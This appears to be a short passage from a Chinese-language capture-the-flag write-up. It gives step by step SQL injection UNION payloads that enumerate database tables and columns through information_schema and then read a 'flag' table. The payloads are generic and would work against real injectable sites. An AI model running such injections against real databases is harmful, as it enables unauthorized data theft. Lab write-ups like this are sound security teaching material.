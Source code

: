 爆表:`666' union select group_concat(table_name)from information_schema.tables where table_schema=database()#
`
![upload successful](/images/pasted-502.png)

爆字段:`666' union select group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='flag'#`

![upload successful](/images/pasted-503.png)
最后使用：`1' union select group_concat(flag) from flag#`
